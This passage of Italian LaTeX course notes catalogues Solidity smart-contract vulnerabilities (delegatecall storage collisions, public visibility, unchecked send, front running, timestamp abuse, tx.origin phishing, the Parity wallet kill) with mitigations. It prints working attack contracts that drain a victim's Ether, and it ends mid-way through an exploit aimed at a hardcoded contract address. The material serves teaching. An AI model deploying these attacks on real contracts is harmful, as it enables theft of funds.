    // modify the zeroth number in the sequence
    function setStart(uint _start) public {
        start = _start;
    }
    function setFibonacci(uint n) public {
        calculatedFibNumber = fibonacci(n);
    }
    function fibonacci(uint n) internal returns (uint) {
        if (n == 0) return start;
        else if (n == 1) return start + 1;
        else return fibonacci(n - 1) + fibonacci(n - 2);
    }
}
\end{lstlisting}


Questa libreria può essere usata in un altro contratto, mostrato di seguito, che consente a un partecipante di ritirare l'Ether dal contratto, con la quantità pari al numero di Fibonacci corrispondente all'ordine di prelievo del partecipante.

\begin{lstlisting}[language=Solidity]
contract FibonacciBalance {
    address public fibonacciLibrary;
    // the current fibonacci number to withdraw
    uint public calculatedFibNumber;
    // the starting fibonacci sequence number
    uint public start = 3;    
    uint public withdrawalCounter;
    // the fibonancci function selector
    bytes4 constant fibSig = bytes4(sha3("setFibonacci(uint256)"));
    
    // constructor - loads the contract with ether
    constructor(address _fibonacciLibrary) public payable {
        fibonacciLibrary = _fibonacciLibrary;
    }
    function withdraw() {
        withdrawalCounter += 1;
        // calculate the fibonacci number for the current withdrawal user
        // this sets calculatedFibNumber
        require(fibonacciLibrary.delegatecall(fibSig, withdrawalCounter));
        msg.sender.transfer(calculatedFibNumber * 1 ether);
    }
    
    // allow users to call fibonacci library functions
    function() public {
        require(fibonacciLibrary.delegatecall(msg.data));
    }
}
\end{lstlisting}

\begin{itemize}
    \item \texttt{fibonacciLibrary} è l'indirizzo della libreria di Fibonacci;
    \item \texttt{calculatedFibNumber} è il numero di Fibonacci calcolato;
    \item \texttt{bytes4 constant fibSig = bytes4(sha3("setFibonacci(uint256)"));} stabilisce quale funzione possiamo chiamare, passando come variabile lo SHA3 del nome della funzione; viene chiamato \textbf{selezionatore di funzione};
    \item Nella funzione \texttt{withdraw()} faccio una chiamata con \texttt{DELEGATECALL} alla libreria passandogli la variabile che contiene la firma in SHA3 della funzione da chiamare e il parametro
    
    \texttt{withdrawalCounter}. Infine trasferisco al chiamate una certa quantità di Ether.
\end{itemize}
L'indirizzo del contratto esterno da chiamare è passato mediante il costruttore. Non sussiste alcun controllo se il contratto passato è quello corretto, e ciò può dare problemi, perché non so se quello smart contract implementa quella funzione. Inoltre, i parametri di input per gli smart contract sono visibili sulla blockchain e possono rilevare particolari scelte di implementazione. Una soluzione consiste nell'usare la parola chiave \texttt{new} per creare contratti:

\begin{lstlisting}[language=Solidity]
constructor() public payable {
    fibonaccyLibrary = new FibonacciLib();
}
\end{lstlisting}

Una vulnerabilità è che entrambi i contratti hanno la variabile \texttt{start}, e la funzione di fallback in \texttt{FibonacciBalance} consente di passare tutte le chiamate al contratto di libreria, e potenzialmente chiamare setStart(). Questo perché usando \texttt{DELEGATECALL} il contesto rimane quello del chiamante quindi la variabile locale start nasconde quella di libreria. Ma i problemi sono ben più profondi.

Le variabili di stato o di archiviazione (variabili che persistono nelle singole transazioni) vengono inserite in slot dello stack in modo sequenziale man mano che vengono dichiarate nel contratto. La prima variabile è \texttt{start} (quella di libreria), e viene memorizzata allo \texttt{slot[0]}. La seconda variabile, \texttt{calculatedFibNumber}, viene posizionata nel successivo slot, \texttt{slot[1]}. La funzione \texttt{setFibonacci(n)} pone \texttt{calculatedFibNumber} pari suo ritorno, ovvero pone \texttt{slot[1]} pari al suo ritorno.

Passando al contratto di \texttt{FibonacciBalance}, abbiamo che \texttt{slot[0]} corrisponde all'indirizzo di

\texttt{fibonacciLibrary} e \texttt{slot[1]} corrisponde a \texttt{calculatedFibNumber}. Qui è presente la vulnerabilità siccome \texttt{DELEGATECALL} preserva il contesto del contratto chiamante. La funzione \texttt{setFibonacci()} viene chiamata, modificando \texttt{slot[1]} come previsto. Tuttavia, la variabile \texttt{start} nel contratto 

\texttt{FibonacciLib} si trova in \texttt{slot[0]}, che nel contesto del chiamante contiene l'indirizzo di

\texttt{fibonacciLibrary}. Ciò significa che la funzione \texttt{fibonacci()} darà un risultato inaspettato. Inoltre, il contratto 

\texttt{FibonacciBalance} consente agli utenti di chiamare tutte le funzioni di \texttt{FibonacciLibrary} tramite la funzione di fallback, tra cui la funzione \texttt{setStart()}. Tale funzione è richiamata mediante \texttt{DELEGATECALL}, che preserva il contesto, quindi questa funzione consente a chiunque di modificare o impostare il valore in 
\texttt{slot[0]}, ovvero l'indirizzo per \texttt{FibonacciLibrary}. Pertanto, un utente malintenzionato potrebbe creare un contratto dannoso, e chiamare \texttt{setStart()} passando l'indirizzo del contratto dannoso. Questo farà sì che ogni volta che un utente chiama \texttt{draw()} o la funzione di fallback, verrà eseguito il contratto dannoso, che puo rubare l'intero saldo del contratto. Un contratto dannoso che si comporta in questo modo potrebbe essere:

\begin{lstlisting}[language=Solidity]
contract Attack {
    uint storageSlot0; // corresponds to fibonacciLibrary
    uint storageSlot1; // corresponds to calculatedFibNumber
   
    // fallback - this will run if a specified function is not found
    function() public {
        storageSlot1 = 0; // we set calculatedFibNumber to 0, so that if withdraw
        // is called we don't send out any ether. 
        <attacker_address>.transfer(this.balance); // we take all the ether
    }
 }
\end{lstlisting}
Infatti in questo contratto \texttt{this.balance} non è il balance del contratto Attack, ma di quello attaccato!

Ovviamente questa è una vulnerabilità nota: per ovviare Solidity fornisce la parola chiave \texttt{library} per l'implementazione dei contratti di libreria. Ciò garantisce che il contratto con \texttt{library} sia senza stato (per attenuare le complessità del contesto di archiviazione) e non autodistruttibile.

\vspace{5mm}

Le funzioni in Solidity hanno specificatori di visibilità: una funzione può essere chiamata esternamente dagli utenti o da altri contatti derivati, o solo internamente o solo esternamente.

\begin{itemize}
    \item \texttt{private}: la funzione ha visibilità solo nel contratto in cui è definita.
    \item \texttt{internal}: la funzione ha visibilità nel contratto in cui è definita e dalle derivate di quel contratto.
    \item \texttt{external} la funzione può essere chiamata solo da altri smart contract.
    \item \texttt{public}: la funzione può essere chiamata da chiunque.
\end{itemize}
L'impostazione predefinita delle funzioni è la visibilità pubblica. Un errato utilizzo degli specificatori di visibilità può portare a vulnerabilità devastanti, come nel prossimo esempio. Questo contratto è progettato per fungere da gioco per indovinare gli indirizzi. Per vincere il saldo del contratto, un utente deve generare un indirizzo Ethereum i cui ultimi caratteri esadecimali sono 0.

\begin{lstlisting}[language = Solidity]
contract HashForEther {
    function withdrawWinnings() {
        // Winner if the last 8 hex characters of the address are 0. 
        require(uint32(msg.sender) == 0);
        _sendWinnings();
     }
     function _sendWinnings() {
         msg.sender.transfer(this.balance);
     }
}
\end{lstlisting}
Per controllare gli ultimi 8 caratteri esadecimali faccio il casting dell'indirizzo a \texttt{uint32} e controllo che sia zero. Non avendo specificato la visibilità delle funzioni, queste sono pubbliche, quindi chiunque può invocare la funzione \texttt{\_sendWinnings()}, che è pubblica, e ottenere la taglia non rispettando il gioco. Per evitare l'insorgenza di queste problematiche, è buona norma specificare sempre la visibilità di tutte le funzioni in un contratto, anche se intenzionalmente pubbliche.

Le funzioni \texttt{call()} e \texttt{send()} restituiscono un valore booleano che indica se la chiamata è riuscita o meno. Un errore comune si verifica quando il valore restituito non è controllato.
\begin{lstlisting}
contract Lotto {
    bool public payedOut = false;
    address public winner;
    uint public winAmount;
    
    // ... extra functionality here 
    function sendToWinner() public {
        require(!payedOut);
        winner.send(winAmount);
        payedOut = true;
    }
    
    function withdrawLeftOver() public {
        require(payedOut);
        msg.sender.send(this.balance);
    }
}
\end{lstlisting}
Il problema in questo codice è utilizzare una \texttt{send()} senza controllarne la risposta. Un vincitore la cui transazione fallisce (o esaurisce il gas, o perché invoca \texttt{throws} intenzionalmente nella fallback o tramite un call stack depth attacck, impossibile su recenti EVM) consente alla variabile \texttt{payedOut} di essere impostata su \texttt{true} (indipendentemente dal fatto che l'ether sia stato inviato o no). In questo caso, chiunque può ritirare la vincita tramite la funzione \texttt{withdrawLeftOver()}. Quando possibile, si deve preferire \texttt{transfer()} a \texttt{send()}, perché propaga gli errori all'indietro verso il chiamante disfacendo la transazione. Se \texttt{send()} è richiesto, magari perché gli errori devono essere gestiti localmente, bisogna assicurarsi di controllare sempre il valore restituito, dove è importante che l'errore venga gestito nel contratto senza annullare tutte le modifiche di stato.

La combinazione di chiamate esterne ad altri contratti e la natura multiutente della blockchain sottostante dà origine a una serie di potenziali insidie per cui gli utenti competono per l'esecuzione del codice ottenendo esiti imprevisti. Le transazioni sono ordinate dai miners in base al loro \texttt{gasPrice}, e ciò può essere usato a proprio vantaggio dagli attaccanti. In questo smart contract, l'utente che trova la stringa per l'hash sha3 nella variabile \texttt{hash} può inviare la soluzione e vincere 1000 ether. Ipotizziamo che un utente capisce che la soluzione è \texttt{"Ethereum!"}, e invoca di conseguenza \texttt{solve()}. Un utente malintenzionato può aver controllato il pool di transazioni e vedendo questa transazione, invia una transazione equivalente con un prezzo del gas molto più alto rispetto a quella originale. A causa del gas più elevato, la seconda transazione sarà accettata prima (\textit{front running attack}). L'attaccante otterrà i 1000 ether e l'utente onesto non otterrà nulla.
\begin{lstlisting}[language=Solidity]
contract FindThisHash {
    bytes32 constant public hash = 0xb5b5b97fafd9855eec9b41f74dfb6c38f5951141f9a3ecd7f44d5479b630ee0a;
    
    constructor() public payable {} // load with ether
    
    function solve(string solution) public {
        // If you can find the pre image of the hash, receive 1000 ether
        require(hash == sha3(solution)); 
        msg.sender.transfer(1000 ether);
    }
}
\end{lstlisting}
Per ovviare a questa vulnerabilità, una delle soluzioni è quella di utilizzare uno schema di \textit{commit-reveal}, quando possibile. Gli utenti inviano transazioni con informazioni nascoste (in genere un hash):
\begin{lstlisting}[language=Solidity]
function commit(bytes32 committment) public payable { }
\end{lstlisting}
Dopo che la transazione è stata inclusa in un blocco, l'utente invia un'altra transazione rivelando i dati che sono stati inviati.
\begin{lstlisting}[language=Solidity]
function reveal(Choice choice, bytes32 blindingFactor) public { }
\end{lstlisting}
Questo metodo impedisce sia ai miner che agli utenti di effettuare transazioni anticipate poiché non possono determinare il contenuto della transazione.

Esistono vari modi in cui un contratto può diventare indisponibile mediante attacchi DoS: uno dei modi è rappresentato da cicli lunghi di mappoing o di array manipolati esternamente. Ad esempio sto eseguendo un \texttt{for} sull'array che intanto viene cambiato quindi il ciclo potrebbe continuare all'infinito.
\begin{lstlisting}[language=Solidity]
contract DistributeTokens {
    address public owner; // gets set somewhere
    address[] investors; // array of investors
    uint[] investorTokens; // the amount of tokens each investor gets
    
    // ... extra functionality, including transfertoken()
    
    function invest() public payable {
        investors.push(msg.sender);
        investorTokens.push(msg.value * 5); // 5 times the wei sent
        }
    
    function distribute() public {
        require(msg.sender == owner); // only owner
        for(uint i = 0; i < investors.length; i++) { 
            // here transferToken(to,amount) transfers "amount" of tokens to the address "to"
            transferToken(investors[i],investorTokens[i]); 
        }
    }
}
\end{lstlisting}
Questo contratto ha un owner, un array per gli investitori e un array di token per gli investitori. La funzione \texttt{invest()} fa una push dell'indirizzo dell'investitore nell'array degli investitori e una push del valore pagato del messaggio moltiplicato per 5 nell'array di token. La funzione \texttt{distribute()} controlla che il chiamante sia l'owner e distribuisce i token agli investitori.

La vulnerabilità è nel ciclo che viene eseguito su un array che può essere modificato arbitrariamente. Un utente malintenzionato può creare molti account e chiamare \texttt{invest()} tante volte in modo tale che il gas richiesto per \texttt{distribute()} superi il limite del gas dello smart contract, rendendo sostanzialmente inutilizzabile la funzione \texttt{distribute()}.

La soluzione è evitare di ciclare su strutture che sono manipolate esternamente, oppure nell'applicare un withdrawal pattern, dove ogni utente invoca una funzione isolata che richiede il trasferimento del token.

\vspace{5mm}

Un altra modalità di attacco tramite DoS è ad esempio che l'owner del contratto debba eseguire alcune attività affinché il contratto possa passare allo stato successivo. Se perde le proprie chiavi o diventa inattivo, l'intero contratto diventa inutilizzabile. A volte i contratti passano a un nuovo stato se ricevono Ether o un input da una fonte esterna. Questi modelli possono portare ad attacchi DoS, quando la chiamata esterna fallisce o viene impedita per motivi esterni. Una soluzione consiste nell'impostare un timelock, che consente a qualsiasi utente di finalizzare dopo un periodo di tempo in cui la condizione non si è verificata.

I timestamp dei blocchi sono utilizzati per una varietà di applicazioni, e i miners hanno la capacità di modificare leggermente i timestamp, il che può rivelarsi piuttosto pericoloso se il timestamp vengono utilizzati in modo errato negli smart contract. Vediamo questo contratto che si comporta come una semplice lotteria. Una transazione per blocco può scommettere 10 ether per avere la possibilità di vincere il saldo del contratto. Il presupposto è che \texttt{block.timestamp} sia distribuito uniformemente sulle ultime due cifre. Se così fosse, ci sarebbe una probabilità di 1/15 di vincere.
\begin{lstlisting}[language=Solidity]
contract Roulette {
    uint public pastBlockTime; // Forces one bet per block
    
    constructor() public payable {} // initially fund contract
    
    // fallback function used to make a bet
    function () public payable {
        require(msg.value == 10 ether); // must send 10 ether to play
        require(now != pastBlockTime); // only 1 transaction per block
        pastBlockTime = now;
        if(now % 15 == 0) { // winner
            msg.sender.transfer(this.balance);
        }
    }
}
\end{lstlisting}
Se nel contratto è presente una quantità sufficiente di Ether, un minatore che risolve un blocco è incentivato a scegliere un timestamp tale che \texttt{block.timestamp} oppure \texttt{now} modulo 15 sia uguale a 0. In tal modo può vincere il saldo del contratto insieme alla ricompensa per il mining del blocco. Inoltre poiché c'è un solo partecipante per blocco questo contratto è vulnerabile al front running attack. Il margine d'azione però è limitatoL i timestamp aumentano in maniera monotona e non si possono scegliere valori arbitrari o troppo lontani nel futuro poiché il blocco risulterebbe rifiutato dalla rete. A volte è necessaria una logica sensibile al tempo, ma si consiglia di utilizzare \texttt{block.number} che è più sicuro poiché i miners non sono in grado di manipolarlo facilmente. 

I costruttori sono funzioni speciali che spesso svolgono compiti critici e privilegiati durante l'inizializzazione dei contratti. Prima di Solidity v0.4.22, i costruttori erano funzioni che avevano lo stesso nome del contratto che li conteneva. Quando un nome di contratto viene modificato in fase di sviluppo, ma il nome del costruttore non viene modificato, questo diventa una normale funzione richiamabile.
\begin{lstlisting}
contract OwnerWallet {
    address public owner;
    //constructor
    function ownerWallet(address _owner) public {
        owner = _owner;
    }
    
    // fallback. Collect ether.
    function () payable {} 
    
    function withdraw() public {
        require(msg.sender == owner); 
        msg.sender.transfer(this.balance);
    }
}
\end{lstlisting}
In questo contratto ad esempio l'errore sta nel fatto che il costruttore non ha il nome identico al contratto, per cui può essere chiamato come una normale funzione, e quindi un utente malizioso può modificare l'owner del contratto. Dalla versione v0.4.22 di Solidity è stata introdotta la parola chiave \texttt{constructor} che specifica il costruttore. 

\vspace{5mm}

EVM archivia i dati in tre possibili locazioni:
\begin{itemize}
    \item \texttt{memory} - rappresenta un'area di memoria per le variabili locale delle funzioni, il cui ciclo di vita è limitato alla durata di una chiamata esterna di funzione.
    \item \texttt{storage} - rappresenta un'area di memoria per le variabili di stato, il cui ciclo di vita è pari a quello del contratto.
    \item \texttt{calldata} - rappresenta un'area di memoria speciale non modificabile e non persistente, utilizzata per gli argomenti delle funzioni \texttt{ecternal}.
\end{itemize}
È altamente raccomandato quando si sviluppano i contratti capire esattamente come vengono gestite queste aree di memoria per le variabili locali delle funzioni, e i loro tipi predefiniti (valori o riferimenti). Questo perché è possibile produrre contratti vulnerabili inizializzando in modo inappropriato le variabili. 

Le variabili locali all'interno delle funzioni vengono allocate per impostazione predefinita in \texttt{storage} o \texttt{memory} a seconda del loro tipo. Se non inizializzate possono causare dei comportamenti inattesi.
\begin{lstlisting}[language=Solidity]
// A Locked Name Registrar
contract NameRegistrar {
    bool public unlocked = false;  // registrar locked, no name updates
    
    struct NameRecord { // map hashes to addresses
        bytes32 name;  
        address mappedAddress;
    }
    mapping(address => NameRecord) public registeredNameRecord; // records who registered names 
    mapping(bytes32 => address) public resolve; // resolves hashes to addresses
    
    function register(bytes32 _name, address _mappedAddress) public {
        // set up the new NameRecord
        NameRecord newRecord;
        newRecord.name = _name;
        newRecord.mappedAddress = _mappedAddress; 
        resolve[_name] = _mappedAddress;
        registeredNameRecord[msg.sender] = newRecord; 
        require(unlocked); // only allow registrations if contract is unlocked
    }
}
\end{lstlisting}
Questo contratto ha una variabile di stato \texttt{unlocked}, impostata a \texttt{false}, una struttura \texttt{NameRecord} e dei mapping. Poi c'è una funzione di registrazione che costruisce un oggetto \texttt{NameRecord} con nome e indirizzo, che può essere eseguita solo quando \texttt{unlocked} è \texttt{true}. 
Tuttavia c'è una vulnerabilità in questo contratto che permette di registrare nomi indipendentemente dal valore della variabile di stato. I tipi struct definiscono riferimenti, e \texttt{newRecord} non è inizializzato con \texttt{new}. Solidity inizializza per impostazione predefinita istanze di tipi di dati complessi, come gli struct, a \texttt{storage}, quando questi vengono usate come variabili locali. \texttt{newRecord} punta a \texttt{storage} e quindi \texttt{newRecord.name} punta a \texttt{slot[0]}, ovvero ad \texttt{unlocked}, modificabile direttamente mediante il parametro \texttt{\_name} della funzione \texttt{register()}.

Generalmente il compilatore Solidity genera dei warning quando trova delle variabili non inizializzate, quindi gli sviluppatori dovrebbero prestare molta attenzione a questi avvisi. L'attuale versione di mist (0.10) non consente la compilazione di questi contratti.

\vspace{5mm}

Solidity ha una variabile globale, chiamata \texttt{tx.origin}, che attraversa l'intero stack di chiamate e restituisce l'indirizzo dell'account che ha originariamente inviato la chiamata o la transazione. L'utilizzo di questa variabile per l'autenticazione negli smart contract lascia il contratto vulnerabile a un attacco phishing. 
\begin{lstlisting}[language=Solidity]
contract Phishable {
    address public owner;
    
    constructor (address _owner) {
        owner = _owner; 
    }
    
    function () public payable {} // collect ether
    function withdrawAll(address _recipient) public {
        require(tx.origin == owner);
        _recipient.transfer(this.balance); 
    }
}

import "Phishable.sol";
contract AttackContract { 
    
    Phishable phishableContract; 
    address attacker; // The attackers address to receive funds.
    constructor (Phishable _phishableContract, address _attackerAddress) { 
        phishableContract = _phishableContract; 
        attacker = _attackerAddress;
    }
    
    function () { 
        phishableContract.withdrawAll(attacker); 
    }
}
\end{lstlisting}
Il contratto \texttt{Phishable} ha una funzione che controlla se l'inizializzatore della transazione è l'owner, e nel caso gli invia ether. Un attaccante può convincere il proprietario del contratto \texttt{Phishable} di inviargli dell'ether su un indirizoz, senza riconoscere che corrisponde ad \texttt{AttackContract}. L'effetto è quello di chiamare la funzione di fallback, che invoca quella del contratto vittima. La variabile \texttt{tx.origin} non deve essere mai utilizzata per l'autorizzazione negli smart contract, ma per altri scopi. Ad esempio, se si volesse negare ai contratti esterni di chiamare il contratto corrente, si potrebbe implementare una \texttt{require(tx.origin == msg.sender)}
\subsection{Vulnerabilità in Solidity - approfondimento}
In questa sezione sono presentate altre vulnerabilità di Solidity.

Consideriamo i seguenti contratti:
\begin{lstlisting}[language=Solidity]
contract WalletLibrary is WalletEvents {
  
  ...
  
  // throw unless the contract is not yet initialized.
  modifier only_uninitialized { if (m_numOwners > 0) throw; _; }
  // constructor - just pass on the owner array to the multiowned and
  // the limit to daylimit
  function initWallet(address[] _owners, uint _required, uint _daylimit) only_uninitialized {
    initDaylimit(_daylimit);
    initMultiowned(_owners, _required);
  }
  // kills the contract sending everything to `_to`.
  function kill(address _to) onlymanyowners(sha3(msg.data)) external {
    suicide(_to);
  }
  
  ...
  
}

contract Wallet is WalletEvents {
  ...
  // METHODS
  // gets called when no other function matches
  function() payable {
    // just being sent some cash?
    if (msg.value > 0)
      Deposit(msg.sender, msg.value);
    else if (msg.data.length > 0)
      _walletLibrary.delegatecall(msg.data);
  }
  
  ...  
  // FIELDS
  address constant _walletLibrary = 0xcafecafecafecafecafecafecafecafecafecafe;
}
\end{lstlisting}
Quello che accade è che il contratto \texttt{Wallet} passa tutte le chiamate al contratto \texttt{WalletLibrary} via una \texttt{DELEGATECALL}. La variabile \texttt{\_walletLibrary} funge da placeholder per il contratto \texttt{WalletLibrary}, che ha indirizzo \texttt{0x863DF6BFa4469f3ead0bE8f9F2AAE51c91A907b4}. Lo scopo di queste operazioni era quello di avere un contratto \texttt{Wallet} a basso costo le cui funzionalità base erano nel contratto \texttt{WalletLibrary}. 

La vulnerabilità è nel fatto che è possibile inviare le chiamate direttamente al contratto \texttt{WalletLibrary}, il quale potrebbe essere inizializzato e quindi posseduto da un owner. Infatti un utente può chiamare \texttt{initWallet()} sul contratto \texttt{WalletLibrary}, diventando l'owner, e poi chiamare la funzione \texttt{kill()}, distruggendo il contratto di libreria.

\vspace{5mm}

In questo contratto invece è possibile notare l'utilizzo improprio dei modificatori di visibilità su funzioni critiche:
\begin{lstlisting}
contract WalletLibrary is WalletEvents {
  
  ... 
  
  // METHODS
  ...
  
  // constructor is given number of sigs required to do protected "onlymanyowners" transactions
  // as well as the selection of addresses capable of confirming them.
  function initMultiowned(address[] _owners, uint _required) {
    m_numOwners = _owners.length + 1;
    m_owners[1] = uint(msg.sender);
    m_ownerIndex[uint(msg.sender)] = 1;
    for (uint i = 0; i < _owners.length; ++i)
    {
      m_owners[2 + i] = uint(_owners[i]);
      m_ownerIndex[uint(_owners[i])] = 2 + i;
    }
    m_required = _required;
  }
  ...
  // constructor - just pass on the owner array to the multiowned and
  // the limit to daylimit
  function initWallet(address[] _owners, uint _required, uint _daylimit) {
    initDaylimit(_daylimit);
    initMultiowned(_owners, _required);
  }
}
\end{lstlisting}
La funzione \texttt{initWallet()} viene chiamata nel costruttore è imposta l'owner, come si può vedere nella funzione \texttt{initMultiowned()}. Visto che queste funzioni sono state lasciate pubbliche, è possibile chiamarle su contratti già distribuiti, resettando la ownership con l'indirizzo dell'attaccante. A questo punto l'attaccante, essendo owner del contratto, può ritirare tutto il \texttt{balance} presente al suo interno.

\vspace{5mm}

Tutte le transazioni nella blockchain di Ethereum sono operazioni di tipo deterministico: ciò implica che ogni transazione che modifica lo stato dell'ecosistema di Ethereum lo fa in un modo calcolabile e per nulla imprevedibile. Non esiste infatti alcuna funzione \texttt{rand()} in Solidity, così come non esiste randomicità né entropia. Ottenere funzioni uniformemente distribuite in maniera decentralizzata rappresenta un problema che attualmente vede presentate molte proposte di implementazione, come \texttt{randDAO}, che utilizza una catena di hash. 

I primi contratti costruiti sulla piattaforma Ethereum erano basati sul gioco d'azzardo. Questo si basa su probabilità, per cui appare ovvio che implementare il gioco d'azzardo sulla blockchain diventa particolarmente difficile. Uno degli errori più fatti è stato utilizzare hash, timestamp o limite di gas, in quanto queste variabili vengono parzialmente controllate dai miners e non sono completamente casuali. Consideriamo ad esempio uno smart contract che funge da roulette, che restituisce un numero nero se l'hash del prossimo blocco termina con un numero pari, e rosso altrimenti. Un miner (o un pool di miner) potrebbe scommettere 1 milione di dollari sul nero, e non pubblicare il blocco computato finché l'hash non gli garantisce la vittoria. 

La soluzione sta nel portare tutto ciò che riguarda le funzioni non deterministiche fuori dalla blockchain: ciò si può fare tramite sistemi di \textit{commit-reveal} oppure tramite entità centralizzate, che fungono da oracoli. Le variabili dei blocchi non dovrebbero mai essere utilizzate come sorgente di casualità in quanto possono essere manipolate dai miners.

\vspace{5mm}

Uno dei benefici della computazione globale di Ethereum sta nell'abilità di riutilizzare il codice e iteragire con i contratti già distribuiti sulla rete. Questo implica che un gran numero di contratti scambiano messaggi con contratti esterni utilizzando chiamate appunto esterne. Questi messaggi potrebbero provenire da utenti maliziosi anche in maniera non esplicita.

In Solidity, ogni indirizzo può essere \textit{castato} a un contratto a prescindere dal tipo dell'oggetto presente a quell'indirizzo. Questo può essere ingannevole in quanto l'autore del contratto potrebbe voler nascondere del codice malizioso. Consideriamo un esempio di contratto che implementa il sistema di cifratura \textbf{Rot13}:
\begin{lstlisting}[language=Solidity]
//encryption contract
contract Rot13Encryption {
     
   event Result(string convertedString);
   
    //rot13 encrypt a string
    function rot13Encrypt (string text) public {
        uint256 length = bytes(text).length;
        for (var i = 0; i < length; i++) {
            byte char = bytes(text)[i];
            //inline assembly to modify the string
            assembly {
                char := byte(0,char) // get the first byte
                if and(gt(char,0x6D), lt(char,0x7B)) // if the character is in [n,z], i.e. wrapping. 
                { char:= sub(0x60, sub(0x7A,char)) } // subtract from the ascii number a by the difference char is from z. 
                if iszero(eq(char, 0x20)) // ignore spaces
                {mstore8(add(add(text,0x20), mul(i,1)), add(char,13))} // add 13 to char. 
            }
        }
        emit Result(text);
    }
    
    // rot13 decrypt a string
    function rot13Decrypt (string text) public {
        uint256 length = bytes(text).length;
        for (var i = 0; i < length; i++) {
            byte char = bytes(text)[i];
            assembly {
                char := byte(0,char)
                if and(gt(char,0x60), lt(char,0x6E))
                { char:= add(0x7B, sub(char,0x61)) }
                if iszero(eq(char, 0x20))
                {mstore8(add(add(text,0x20), mul(i,1)), sub(char,13))}
            }
        }
        emit Result(text);
    }
}
\end{lstlisting}
Questo codice prende in input una stringa (lettere dalla a alla z, senza validazione dell'input) e la cifra shiftando ogni carattere di 13 posizioni. Consideriamo ora il seguente contratto che utilizza questo codice per la cifratura:
\begin{lstlisting}[language=Solidity]
import "Rot13Encryption.sol";
// encrypt your top secret info
contract EncryptionContract {
    // library for encryption
    Rot13Encryption encryptionLibrary;
        
    // constructor - initialise the library
    constructor(Rot13Encryption _encryptionLibrary) {
        encryptionLibrary = _encryptionLibrary;
    }
    
    function encryptPrivateData(string privateInfo) {
        // potentially do some operations here
        encryptionLibrary.rot13Encrypt(privateInfo);
     }
 }
\end{lstlisting}
Il problema di questo contratto è che l'indirizzo di \texttt{encriptionLibrary} non è pubblico o costante. In più colui che distribuisce il contratto potrebbe aver immesso un indirizzo nel costruttore che in realtà punta a questo contratto:
\begin{lstlisting}[language=Solidity]
//encryption contract
contract Rot26Encryption {
     
   event Result(string convertedString);
   
    //rot13 encrypt a string
    function rot13Encrypt (string text) public {
        uint256 length = bytes(text).length;
        for (var i = 0; i < length; i++) {
            byte char = bytes(text)[i];
            //inline assembly to modify the string
            assembly {
                char := byte(0,char) // get the first byte
                if and(gt(char,0x6D), lt(char,0x7B)) // if the character is in [n,z], i.e. wrapping. 
                { char:= sub(0x60, sub(0x7A,char)) } // subtract from the ascii number a by the difference char is from z. 
                if iszero(eq(char, 0x20)) // ignore spaces
                {mstore8(add(add(text,0x20), mul(i,1)), add(char,26))} // add 13 to char. 
            }
        }
        emit Result(text);
    }
    
    // rot13 decrypt a string
    function rot13Decrypt (string text) public {
        uint256 length = bytes(text).length;
        for (var i = 0; i < length; i++) {
            byte char = bytes(text)[i];
            assembly {
                char := byte(0,char)
                if and(gt(char,0x60), lt(char,0x6E))
                { char:= add(0x7B, sub(char,0x61)) }
                if iszero(eq(char, 0x20))
                {mstore8(add(add(text,0x20), mul(i,1)), sub(char,26))}
            }
        }
        emit Result(text);
    }
}
\end{lstlisting}
che implementa la cifratura Rot26, ovvero non cifra proprio nulla. Il distributore potrebbe anche aver linkato il seguente contratto:
\begin{lstlisting}[language=Solidity]
contract Print{
    event Print(string text);
    
    function rot13Encrypt(string text) public {
        emit Print(text);
    }
 }
\end{lstlisting}
Se l'indirizzo di uno di questi contratti viene inviato al costruttore, la funzione \texttt{encryptPrivateData()} non fa altro che stampare i dati in chiaro, e questo può accadere ad esempio per mezzo dell'owner del contratto, che spesso può modificarne gli indirizzi. Ad esempio se il contratto fosse il seguente:
\begin{lstlisting}
contract Blank {
     event Print(string text);
     function () {
         emit Print("Here");
         //put malicious code here and it will run
     }
 }
\end{lstlisting}
allora l'istruzione \texttt{encryptionLibrary.rot13Encrypt()} avrebbe prodotto il testo \textit{"Here"}. In questo modo se un utente può alterare le librerie dei contratti, in pratica può spingere gli utenti inconsapevoli ad eseguire codice arbitrario.

Sono possibili una serie di tecniche che permettono di prevenire questi scenari. Una di queste è usare la parola chiave \texttt{new}, per essere sicuro del contratto che si utilizza:
\begin{lstlisting}
constructor() {
        encryptionLibrary = new Rot13Encryption();
    }
\end{lstlisting}
Un'altra soluzione è quella di inserire gli indirizzi dei contratti esplicitamente, se questi sono conosciuti. In generale, il codice che chiama contratti esterni dovrebbe essere sempre preso con le pinze. Quando si definiscono contratti esterni conviene spesso rendere l'indirizzo del contratto pubblico, in modo da poter essere esaminato dagli utenti che vogliono utilizzarlo. Se invece è privato, potrebbe essere un segno di un contratto malizioso. È importante anche utilizzare un meccanismo di voto o di time lock che permetta di stabilire quando il codice da eseguire viene cambiato, soprattutto in un ambiente decentralizzato come la blockchain.

\vspace{5mm}

Esistono anche contratti che sembrano buggati ma che in realtà sono fatti apposta per essere attaccati e fanno perdere ether a chi prova ad attaccarli. È il caso del contratto seguente:
\begin{lstlisting}[language=Solidity]
pragma solidity ^0.4.19;
contract Private_Bank
{
    mapping (address => uint) public balances;
    uint public MinDeposit = 1 ether;
    Log TransferLog;
    
    function Private_Bank(address _log)
    {
        TransferLog = Log(_log);
    }
    
    function Deposit()
    public
    payable
    {
        if(msg.value >= MinDeposit)
        {
            balances[msg.sender]+=msg.value;
            TransferLog.AddMessage(msg.sender,msg.value,"Deposit");
        }
    }
    
    function CashOut(uint _am)
    {
        if(_am<=balances[msg.sender])
        {
            if(msg.sender.call.value(_am)())
            {
                balances[msg.sender]-=_am;
                TransferLog.AddMessage(msg.sender,_am,"CashOut");
            }
        }
    }
    
    function() public payable{}    
    
}
contract Log 
{
    struct Message
    {
        address Sender;
        string  Data;
        uint Val;
        uint  Time;
    }
    
    Message[] public History;
    Message LastMsg;
    
    function AddMessage(address _adr,uint _val,string _data)
    public
    {
        LastMsg.Sender = _adr;
        LastMsg.Time = now;
        LastMsg.Val = _val;
        LastMsg.Data = _data;
        History.push(LastMsg);
    }
}
\end{lstlisting}
Una possibile soluzione sarebbe quella di attaccare il contratto con uno come il seguente, in modo da non far andare in loop il contratto e non finire tutto il proprio balance. 
\begin{lstlisting}[language=Solidity]
contract Owned {
  address owner;
  function Owned() {
    owner = msg.sender;
  }
  function kill() {
    if (msg.sender == owner) selfdestruct(owner);
  }
}

interface Target {
    function CashOut(uint _am) public;
    function Deposit() public payable;
}

contract TimeForHack is Owned 
{
    address target = 0x6af5d878a4bfb60e4cf57df316fbf5886f69185c;
